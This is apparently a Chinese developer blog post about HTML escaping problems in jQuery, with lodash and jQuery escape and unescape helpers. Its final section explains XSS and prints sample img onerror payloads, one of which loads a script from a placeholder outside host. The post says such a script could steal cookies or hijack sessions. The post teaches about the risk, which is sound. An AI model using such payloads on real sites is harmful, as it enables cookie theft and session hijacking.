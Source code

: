 ```yaml
---
title: Question
layout: post
date: 2019-8-20 16:55:11
categories: Question
tags: Question
---
```


# 开发常见问题
------

## 1. html转义问题
### dom 上的属性被$()转义：
```
$('<div data-comment="{&quot;title&quot;:&quot;重难点&quot;,&quot;background&quot;:&quot;rgb(240, 149, 82)&quot;,&quot;icon_src&quot;:&quot;/system/images/171025215642____.png&quot;,&quot;content&quot;:&quot;11111<br />22222<br />33333<br />44444<br />&quot;}"></div>')

// 将div标签上的 data-comment 属性转义后的值如下：
nodeValue: "{"title":"重难点","background":"rgb(240, 149, 82)","icon_src":"/system/images/171025215642____.png","content":"11111<br ></div>22222<br />33333<br />44444<br />"}" 
// 明显多出来一个</div>啊
```

>解决办法
1. lodash 的 escape 和 unescape(推荐)
* _.escape：转换字符串中的 `"&", "<", ">", '"', "'"` 为HTML的响应实体字符，没有其他多余的字符被转义。
```
_.escape('11111<br />22222<br />33333<br />44444<br />')
// "11111&lt;br /&gt;22222&lt;br /&gt;33333&lt;br /&gt;44444&lt;br /&gt;"
```
* _.usescape：转换字符串中的实体字符 `&amp;, &lt;, &gt;, &quot;, &#39;` 为响应的 HTML 字符。与escape中的字符一一对应。
```
_.unescape('11111&lt;br /&gt;22222&lt;br /&gt;33333&lt;br /&gt;44444&lt;br /&gt;')
// "11111<br />22222<br />33333<br />44444<br />"
```
* 如果不反转义直接放到dom中呢？
```
// 浏览器会反转义一次字符串，结果展示到页面上：
11111<br />22222<br />33333<br />44444<br /> // 纯字符串
```
* 当在浏览器控制台选中dom后，右键选择："Edit as HTML"后，展示的输入框内容相当于进行了一次 escape，确定输入后又进行了一次 unescape, HTML 中的预留字符必须被替换为字符实体。

2. 利用 jquery
```
// HTML标签转义（< 转为 &lt;）
function html2Escape(sHtml) {
  return $("<div/>").text(sHtml).html();
}
// HTML标签反转义（&lt; 转为 <）
function escape2Html(str) {
  return $("<div/>").html(str).text();
}
// 此方法在反转义的时候会将形如：1<br ></div>2<br />3<br />的内容反转为123
```

### 除了被 $() 转义外，其他情况有哪些呢？
1. XSS 攻击
在浏览器上随便选择一个 dom，控制台执行如下代码：
```
$0.innerHTML="<img src=@ onerror=alert(1)>" // alert(1)

$0.innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://xxx.com/xx.js\";document.body.appendChild(s);' />"
// 代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口等
```

------
